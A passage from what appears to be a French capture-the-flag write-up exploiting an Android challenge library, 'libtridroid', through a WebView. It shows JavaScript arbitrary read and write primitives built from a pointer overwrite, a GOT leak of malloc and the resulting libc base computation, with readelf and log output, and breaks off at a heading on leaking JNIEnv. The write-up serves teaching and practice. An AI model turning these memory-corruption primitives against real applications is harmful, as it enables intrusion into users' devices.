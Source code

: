 ```javascript
function read(addr) {
    // push something because we pop after
    push("41")
    // 16*"41" + pointer overwrite
    modify("41414141414141414141414141414141"+pack64(addr));
    pop();
    return top();
}

function write(addr, data) {
    // push something because we pop after
    push("41")
    // 16*"41" + pointer overwrite
    modify("41414141414141414141414141414141"+pack64(addr));
    pop();
    modify(data)
}
```

### Divulgation de l'adresse de la libc

Une technique courante pour divulguer l'adresse de base de la libc lors de primitives de lecture arbitraires est de divulguer une adresse de la GOT (Global Offset Table). Nous devons choisir une fonction dont nous savons qu'elle a déjà été utilisée avant de la lire.

Nous avons décidé de divulguer l'adresse de `malloc`. Son offset dans libtridroid est `0x2F70`. Depuis notre shell ADB, nous pouvons voir à quel offset `malloc` est défini dans la libc de l'émulateur :

```
generic_x86_64_arm64:/ # readelf -s /system/lib64/libc.so | grep " malloc$"                                                                                                 
   801: 0000000000043410    79 FUNC    GLOBAL DEFAULT   14 malloc
  1658: 0000000000043410    79 FUNC    GLOBAL DEFAULT   14 malloc
```

Le décalage est de `0x43410`. En le soustrayant à l'adresse divulguée, on obtient l'adresse de base de la libc :

```javascript
// leak malloc address
malloc = unpack64(read(base_addr + 0x2F70))
// compute libc base
libc_base = malloc - 0x43410
console.log("Libc base address : "+libc_base.toString(16));
```

Cela donne :

```
08-03 20:10:33.389 23878 23878 I chromium: [INFO:CONSOLE(86)] "Libc base address : 7862bccd2000", source:  (86)
```

 ### Divulgation des objets JNIEnv and This
